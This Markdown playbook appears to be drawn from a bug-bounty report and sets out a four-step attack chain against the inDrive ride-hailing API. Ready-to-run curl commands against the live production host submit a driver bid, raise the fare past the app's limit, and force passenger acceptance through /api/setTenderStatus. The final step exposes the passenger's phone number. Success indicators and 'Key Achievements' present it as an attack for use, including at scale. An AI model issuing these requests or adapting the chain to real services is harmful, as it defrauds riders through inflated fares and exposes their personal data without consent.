

# Force-Accept Ride Orders in inDrive App to Reveal Passenger PII and Inflate Fares

Multi-stage attack chain demonstrating exploitation of improper access control in the inDrive API's /api/setTenderStatus endpoint, combined with a business logic flaw in /api/driverrequest for price inflation. This allows a malicious driver to impersonate passenger acceptance, bypass fare negotiation, reveal sensitive PII like phone numbers, and trick passengers into overpaying.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses direct API calls via curl or similar HTTP client)

### Target Environment

- inDrive mobile app API (terra-akamai.indriverapp.com)
- Required services: /api/driverrequest and /api/setTenderStatus endpoints
- Network access: Internet connectivity to API domain

### Initial Access Requirements

- Valid driver account credentials (phone and token)
- Ability to intercept or craft API requests (e.g., via app proxy like Burp Suite)
- Passenger must initiate a ride request for job_id to exist

## Detailed Attack Procedures

### Step 1: Submit Driver Bid Request to Obtain Tender and Order IDs
procedure: [[procedures/Submit-inDrive-Driver-Request-for-Tender-ID]]

**Objective**: Respond to a passenger's ride request by submitting a driver bid, generating the necessary tender_id and order_id for subsequent exploitation.

**Instructions**: Use the driver's authenticated session to send a bid request to /api/driverrequest with location and price details. Extract tender_id and order_id from the response.

Execute [[commands/curl-indrive-driverrequest]] with appropriate parameters:

```bash
curl "https://terra-akamai.indriverapp.com/api/driverrequest?cid=5957&locale=en_US&job_id=338f72ff-f3c1-4da0-af15-5d1aa720146b&phone=██████████&token=████████&v=7&stream_id=1682279074257167&order_id=██████&client_id=█████████&shield_session_id=██████████&type=indriver&price=63&period=3&geo_arrival_time=1&distance=5&longitude=85.3249627&latitude=27.7390611&sn=1"
```

**Expected Output**: JSON response containing tender_id and order_id.

**Success Indicators**:
- tender_id and order_id received in response
- No authentication errors

### Step 2: Inflate Bid Price for Financial Exploitation
procedure: [[procedures/Inflate-Bid-Price-in-Driver-Request]]

**Objective**: Modify the price parameter in the driver request to an excessively high value, exploiting lack of server-side validation to set arbitrary fares.

**Instructions**: In the /api/driverrequest call from Step 1, alter the price to a value beyond the app's maximum limit (e.g., 1000 instead of 63). This combines with the force-accept to enforce the inflated price.

Modify and re-execute [[commands/curl-indrive-driverrequest]] with inflated price:

```bash
curl "https://terra-akamai.indriverapp.com/api/driverrequest?cid=5957&locale=en_US&job_id=338f72ff-f3c1-4da0-af15-5d1aa720146b&phone=██████████&token=████████&v=7&stream_id=1682279074257167&order_id=██████&client_id=█████████&shield_session_id=██████████&type=indriver&price=1000&period=3&geo_arrival_time=1&distance=5&longitude=85.3249627&latitude=27.7390611&sn=1"
```

**Expected Output**: Bid accepted with inflated price, returning tender_id and order_id.

**Success Indicators**:
- Bid submitted without validation rejection
- Inflated price reflected in response

### Step 3: Force-Accept the Tender Status
procedure: [[procedures/Force-Accept-Tender-Status-via-API]]

**Objective**: Impersonate the passenger by setting the tender status to 'accept' using the obtained IDs, bypassing consent checks.

**Instructions**: Send a GET request to /api/setTenderStatus with status=accept, tender_id, and order_id from previous steps. Use driver's credentials to exploit the lack of authorization verification.

Execute [[commands/curl-indrive-settenderstatus]]:

```bash
curl "https://terra-akamai.indriverapp.com/api/setTenderStatus?cid=5957&locale=en_US&phone=████&token=████████&v=7&stream_id=1682280490209367&tender_id=████████&order_id=█████████&status=accept"
```

**Expected Output**: Confirmation of acceptance, ride status updated.

**Success Indicators**:
- Status set to accept without passenger input
- No authorization denial

### Step 4: Access Revealed Passenger PII and Enforce Inflated Price
procedure: [[procedures/Access-Revealed-Passenger-PII]]

**Objective**: Upon forced acceptance, gain unauthorized access to passenger details and lock in the inflated fare, leading to PII exposure and financial loss.

**Instructions**: Query the ride details API or dashboard post-acceptance to retrieve passenger PII. The server grants access due to the impersonated acceptance.

Monitor the driver's app interface or follow-up API calls for PII retrieval (e.g., phone number). No specific command needed beyond acceptance confirmation.

**Expected Output**: Passenger phone number and other details visible in driver's session; ride proceeds at inflated price.

**Success Indicators**:
- PII (e.g., phone) accessible without consent
- Passenger notified of acceptance at set price

## Attack Chain Summary

### Key Achievements

1. Bypassed passenger consent for ride acceptance via API impersonation
2. Exposed sensitive PII including phone numbers
3. Enforced arbitrary high prices through unvalidated bids, causing financial overpayment
4. Enabled automation for scalable exploitation in real-time bidding

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
